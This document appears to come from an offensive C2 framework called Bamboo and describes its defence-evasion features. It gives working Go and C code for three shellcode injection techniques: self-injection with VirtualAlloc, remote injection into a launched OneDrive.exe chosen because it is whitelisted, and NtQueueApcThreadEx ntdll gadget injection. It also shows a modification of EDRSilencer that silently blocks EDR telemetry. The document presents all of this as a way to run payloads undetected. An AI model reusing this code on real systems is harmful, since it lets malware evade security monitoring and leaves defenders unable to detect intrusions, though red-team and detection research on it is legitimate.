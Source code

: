 # Evasion

## Shellcode Injection

Elastic Defend is unable to detect malicious in-memory files. Thus, these shellcode injection techniques are effective in executing payloads undetected. The shellcode injection techniques are implemented within Bamboo Agent and can be selected when the user uses the [`exploit`](Client/commands.md#exploit) command.

### Virtual Allocation Injection

Virtual Allocation injection is a technique used to inject shellcode into memory. As this method of injection uses VirtualAlloc, it allocates and injects shellcode into the memory of its own process.

The exploits used by Bamboo tend to crash the injected process, so using Virtual Allocation will likely cause the Agent that ran it to crash.

The technique involves the following steps:

1. Use VirtualAlloc to reserve space to inject the shellcode inside the process.
2. Copy the shellcode into the reserved space using RtlCopyMemory.
3. Call VirtualProtect to change the protection on the injected space to allow execution.
4. Create a new thread in the process using CreateThread to run the shellcode in the injected space.
5. WaitForSingleObject is used to wait for the thread to finish.

**Implementation**

[zaneGittins’ go-inject](https://github.com/zaneGittins/go-inject) simplifies using Windows functions related to injections, and is used by the agent to implement this technique.

<details>
<summary>Expand code</summary>

```go
func VirturalAlloc(payload string) (err error) {
  sc, err := hex.DecodeString(payload)
  if err != nil {
    fmt.Printf("\nError decoding shellcode: %s\n", err)
    return
  }

  address := inject.VirtualAlloc(uintptr(0), len(sc), windows.MEM_RESERVE|windows.MEM_COMMIT, windows.PAGE_READWRITE)
  inject.RtlMoveMemory2(address, sc)
  inject.VirtualProtect(address, len(sc), windows.PAGE_EXECUTE_READ)
  thread := inject.CreateThread(address)
  inject.WaitForSingleObject(thread, 0xFFFFFFFF)
  return
}
```
</details>

---

### Remote Process Injection

Remote Process Injection, also called Vanilla Process Injection, is a shellcode injection technique that injects the shellcode into the memory of another process. Unlike the Virtual Allocation Injection technique above, this technique used VirtualAllocEx rather than VirtualAlloc, which allocates memory in another process instead of the local process.

The advantages of using process injection over injecting into itself are:

- Causing the injected process to crash instead of the agent used to inject.
- Make use of any whitelisting detection tools have for the injected process

The steps this technique uses is:

1. Get the PID of the process to inject.
2. Call OpenProcess to get a handle for the process to inject into.
3. Use VirtualAllocEx to allocate space for the shellcode in the remote process.
4. Write the shellcode into the allocated space using WriteProcessMemory.
5. Create a thread in the remote process with CreateRemoteThread to run the allocated space.
6. Close the handle to the process with CloseHandle.

**Implementation**

Instead of finding the PID of a suitable process, the Agent will launch OneDrive.exe from the user’s home directory. OneDrive is a very suitable process to inject into with the exploits Bamboo has, and launching the process before injecting into it will ensure that the process will be available to inject into. It is also whitelisted from Elastic Security’s Component Model Hijacking as it is considered a noisy process.

<details>
<summary>Expand code</summary>

```go
...
sc, err := hex.DecodeString(payload)
if err != nil {
  return
}
 find and launch OneDrive.exe and use its PID
currentUser, _ := user.Current()
oneDriveExe := currentUser.HomeDir + "\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe"
cmd := exec.Command(oneDriveExe)
cmd.Stdout = os.Stdout
// Start() runs the command without waiting for return - rest of the code can continue
  err = cmd.Start()
  if err != nil {
  fmt.Println(err)
    return errors.New("cannot launch process")
}
exploitPID := cmd.Process.Pid
fmt.Println("exploit pid:", exploitPID)
...
```
</details>

The rest of the injection technique is implemented with [zaneGittins’ go-inject](https://github.com/zaneGittins/go-inject) library.

<details>
<summary>Expand code</summary>

```go
...
processHandle, _ := inject.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, 0, uint32(int(exploitPID)))
memptr := inject.VirtualAllocEx(processHandle, uintptr(0), len(sc), 0x3000, 0x40)

_ = inject.WriteProcessMemory(processHandle, memptr, sc)
inject.CreateRemoteThread(processHandle, 0, 0, memptr, 0, 0, 0)
inject.CloseHandle(processHandle)
fmt.Println(windows.GetLastError())
return
```
</details>
---

### NtQueueApcThreadEx NTDLL Gadget Injection

**Description**

This is a novel shellcode injection method first used by Roshtyak, the DLL backdoor used by the malware Raspberry Robin. This was adapted into a C program and published on github by [LLoydLabs](https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection), which is the original code Bamboo uses for its NtQueueApcThreadEx NTDLL Gadget Injection. The image below shows the parameters of `NtQueueApcThreadEx()`, a function in the Windows Native API. The original code only works with x86 shellcode. However, in the explanation below, the gadget `pop rax; ret` is used instead of `pop r32; ret` to make the technique work with x64 shellcode instead.

![ntqueueapcthreadex_api](img/ntqueue.png)

The technique uses the following steps:

1. Allocate shellcode into the memory of the current process
2. Scan the ntdll.dll code sections of the current process for a `pop rax; ret` gadget and pick 1 of these gadgets randomly. 
    - “rax” refers to a general-purpose register such as eax, ebc, ecx etc. Thus, an example gadget that would meet this requirement is `pop ebp; ret`. 
    - An exception is the gadget `pop esp; ret` because this would pivot the stack. 
    - “Code sections” refers to IMAGE_SCN_CNT_CODE and IMAGE_SCN_MEM_EXECUTE
3. Call `NtQueueApcThreadEx()` with the `ApcRoutine` set to the address of the random gadget found in step 2 (`pop rax; ret`) and `SystemArgument1` as the pointer to the shellcode allocated in step 1. 
    - With `ApcRoutine` set to the random gadget, the `pop r32` instruction will make the stack pointer point to `SystemArgument1`. 
    - The `ret` instruction will make the Instruction Pointer (IP) jump to the location that `SystemArgument1` points to, which is the location of the allocated shellcode in step 1  

This technique requires Microsoft Visual C++ redistributables x86 to be installed on the target which can be found at [https://aka.ms/vs/16/release/vc_redist.x86.exe](https://aka.ms/vs/16/release/vc_redist.x86.exe).

**Implementation**

The code is modified to work with x64 shellcode by changing a single line in gadget.h as shown in the code snippet below.

<details>
<summary>Expand code</summary>

```c
static
BOOL
gadget_match_valid(
    PBYTE pbAddress
)
{
    //return (*pbAddress != 0x5C && (*pbAddress & 0xF0) == 0x50) && *(pbAddress + 1) == 0xC3; // for x86
    return *pbAddress == 0x58 && *(pbAddress + 1) == 0xC3; // for x64

}
```
</details>

Additionally, in the original code, the shellcode was hardcoded in main.h. In Bamboo, the code is modified to receive shellcode via standard input. After the injection program is dropped onto the target and executed, the shellcode will be passed via standard input from the agent as a hexstring in the format “ab1823129ef…”, which is the standard format of shellcode that our agent uses for its injection techniques. This hexstring is stored into a buffer of the injection program and converted by a `convert_hex()` function into a hexstring of format “\xab\x18\x23\x12\xef…”. The rest of the code follows the logic of the original PoC from LloydLabs.

---

## EDR Blinding
The tool below is not an injection technique, but instead used to disrupt the effectiveness of the EDR itself.

### EDR Silencer

**Description**

EDRSilencer, created by [netero1010](https://github.com/netero1010) is an [open-source](https://github.com/netero1010/EDRSilencer) evasion tool designed for disrupting Endpoint Detection and Response (EDR) systems. It leverages Windows Filtering Platform (WFP) APIs, which allows a program developer to create network filtering software that can examine, modify and stop network traffic. EDRSilencer uses the WFP to prevent EDR agents and processes from connecting and reporting security events with their servers, effectively disabling the EDR’s threat detection capabilities of the EDR. The tool currently supports Elastic EDR, among other popular EDR solutions.

**Implementation**

In the [original code's](https://github.com/netero1010/EDRSilencer/blob/main/EDRSilencer.c) main function, it checks if the user inputs the correct number of command-line arguments and performs different actions based on the argument’s value:

| Arguments | Description |
| --- | --- |
| -h or --help | Prints the help information |
| blockedr | Blocks all detected EDR processes from sending outbound traffic |
| block <process path> | Blocks a specific process from sending outbound traffic |
| unblockall | Removes all WFP filters applied |
| unblock <filter id> | Removes a specific WFP filter based on its filter ID |

The team modified the main function of the original code. The modified code no longer requires command-line arguments. It has been altered to only execute the  `blockedr` argument. The modified code is as follows:

<details>
<summary>Expand code</summary>

```c
int main() {
    if (!CheckProcessIntegrityLevel()) {
        return 1;
    }
    PrintHelp();
    BlockEdrProcessTraffic();
    return 0;
}
```
</details>
This modification allows the executable to be easily incorporated within our C2 and agent, making it more convenient and efficient for our purposes.